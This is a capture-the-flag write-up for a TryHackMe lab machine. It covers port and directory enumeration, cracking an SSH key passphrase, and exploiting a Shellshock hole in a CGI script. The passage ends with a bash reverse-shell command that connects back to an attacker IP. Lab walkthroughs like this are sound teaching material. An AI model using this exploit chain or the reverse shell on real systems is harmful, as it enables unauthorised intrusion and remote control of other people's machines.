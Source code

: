 # Introduction

We first add a domain in /etc/hosts so we don't need to remember the IP
```bash
10.10.xx.xx 0day.thm
```

# Enumeration

We do a nmap with some options :\
\
-T4 is for have more threads to accelerate the scan\
-p- is to scan all the ports\
-sV is to scan the version\
\
we run the scan as sudo so it's doing a SYN scan and not a full TCP connection so it's faster

```bash
sudo nmap -T4 -p- -sV 0day.thm
```

We got this result
```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.13 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

# HTTP (Port 80)
We enumarate the website with feroxbuster and found some interestings folders

```bash
feroxbuster -u http://0day.thm/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
```

```bash
301      GET        9l       28w      305c http://0day.thm/cgi-bin => http://0day.thm/cgi-bin/
301      GET        9l       28w      301c http://0day.thm/img => http://0day.thm/img/
200      GET       78l      138w     1114c http://0day.thm/css/main.css
200      GET        7l       11w      156c http://0day.thm/js/main.js
301      GET        9l       28w      305c http://0day.thm/uploads => http://0day.thm/uploads/
200      GET      423l     2430w   194997c http://0day.thm/img/avatar.png
200      GET       42l      136w     3025c http://0day.thm/
301      GET        9l       28w      303c http://0day.thm/admin => http://0day.thm/admin/
301      GET        9l       28w      301c http://0day.thm/css => http://0day.thm/css/
301      GET        9l       28w      300c http://0day.thm/js => http://0day.thm/js/
301      GET        9l       28w      304c http://0day.thm/backup => http://0day.thm/backup/
301      GET        9l       28w      304c http://0day.thm/secret => http://0day.thm/secret/
```

At url /backup/ we found a private SSH key\
<img width="570" alt="image" src="https://github.com/MaTe0r/tryhackme.com/assets/94843357/f73e3c99-906a-4a4a-8686-8b5fdb7be74e">

```
$ ssh2john id_rsa >> id_rsa.john
```

```bash
$ john id_rsa.john --wordlist=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
letmein          (id_rsa)     
1g 0:00:00:00 DONE (2023-08-18 16:01) 100.0g/s 51200p/s 51200c/s 51200C/s teiubesc..letmein
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

I tried multiple username like root, 0day, ryan... but no one worked\
Seems to be a rabbit hole\
\
Then i did a nikto
```bash
nikto -host 0day.thm
```

And i found there is a vuln ShellShock in the\
```bash
+ /cgi-bin/test.cgi: Uncommon header '93e4r0-cve-2014-6278' found, with contents: true.
+ /cgi-bin/test.cgi: Site appears vulnerable to the 'shellshock' vulnerability. See: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6271
```

We can use a python script to exploit the vuln https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/CVE%20Exploits/Shellshock%20CVE-2014-6271.py\
Then we got somehow a basic shell where we need to use the binaries with full path\
So we can get a shell with this command\
```bash
/bin/bash -i >& /dev/tcp/10.8.72.209/6666 0>&1
```
